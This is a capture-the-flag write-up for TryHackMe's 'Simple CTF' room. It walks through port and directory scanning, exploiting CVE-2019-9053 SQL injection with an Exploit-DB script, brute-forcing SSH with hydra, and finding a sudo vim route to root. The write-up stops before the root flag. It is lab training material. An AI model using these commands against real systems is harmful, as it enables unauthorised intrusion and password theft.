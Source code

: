 
**THM-Simple CTF write-up**

https://tryhackme.com/room/easyctf >> Created by  MrSeth6797

A Simple CTF it is just that!! A CTF for noobs like myself who can hone their skills and intuitions required for ethical hacking and CTF challenges.

**Task 1 -  Simple CTF**

The fisrt step I took in this challenge was to conduct a port scan to identify open ports and running services. I set the -A flag for an noisy aggressive scan and the -oA flag to output all data collated to a file for future reference.
 
**How many services are running under port 1000?**

     ~#nmap -A [IP Address] -oA scan.txt
  
  ![SimpleCTF](https://user-images.githubusercontent.com/100538982/165145721-a2365df7-3c9d-4350-8dd9-2d8e6feeba6a.png)

A. 2
 
**What is running on the higher port?** 

A. SSH


**What's the CVE you're using against the application?**

To further enumerate details from the target I ran a Gobuster scan to identify any directories on the URL [IP Address}.

    ~#gobuster dir -u http://[IP Address] -w /usr/share/wordlist/dirb/common.txt -x php, html, js, php3
    
**Flags**    
-u = denotes URL

-w = path to wordlist

-x = file extensions

![gobuster](https://user-images.githubusercontent.com/100538982/165145962-e846fdb2-986b-4019-ab10-c148b6ae26c1.png)


Entering the URL into the browser and navigating to the directories listed with 200,301 status I uncovered the website version.  Using this version ID I ran a check on the Exploit db to find any vulnerabilities associated with it.


![cms made simple](https://user-images.githubusercontent.com/100538982/165146935-5df2c9ab-ccf7-4af5-bae9-e6021d8bf67e.png)


A. CVE-2019-9053


![explioit db](https://user-images.githubusercontent.com/100538982/165150828-f1c6ce5a-833b-452f-aafe-31ebb59289ae.png)


**To what kind of vulnerability is the application vulnerable?**

A. SQLi

From the Exploit db I was able to download the exploit for this vulnerability.  Due to the imcompatiility of the downloaded file with the current version of python running on the THM Attack Box, I had to grab another script to convert it to somethihing python would understand.

    ~#pip install 2to3
   
   
![pip](https://user-images.githubusercontent.com/100538982/165153141-048d92cd-740f-4a28-9bcd-876e3003087f.png)

    ~#python lib2to3 -s 46635.py
    
**What's the password?**

Running the exploit code against the target machine I was able to find a **salt**, **email address**, **username** and **password hash**. This required a little research to uncover the correct syntax used.

    ~#python 46635.py -u http://10.10.176.184/simple/ --crack -w /usr/share/wordlists/dirb/common.txt
    
![exploit scr](https://user-images.githubusercontent.com/100538982/165153787-d3415fb5-c616-4dd3-a4f4-bcb10c507b7f.png)
 
 finding a username I used hydra to crack the password for a user against **SSH**.
 
    
     ~#hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.176.184:2222


![hydra pass](https://user-images.githubusercontent.com/100538982/165156068-30edc714-7dbd-415e-8d75-68a20a3e0ee5.png)


**Where can you login with the details obtained?**

a. SSH


![ssh](https://user-images.githubusercontent.com/100538982/165157137-057c696a-acf7-4fd9-a198-033a49c7ae83.png)


    ~# ssh -p username@10.10.176.184

**What's the user flag?**


![user flaag](https://user-images.githubusercontent.com/100538982/165157111-34ae0f0d-70fb-4bed-8edf-dfadec92f0e3.png)


**Is there any other user in the home directory? What's its name?**

sunbath


**What can you leverage to spawn a privileged shell?**

    ~#sudo -l
 
A. VIM

**What's the root flag?**






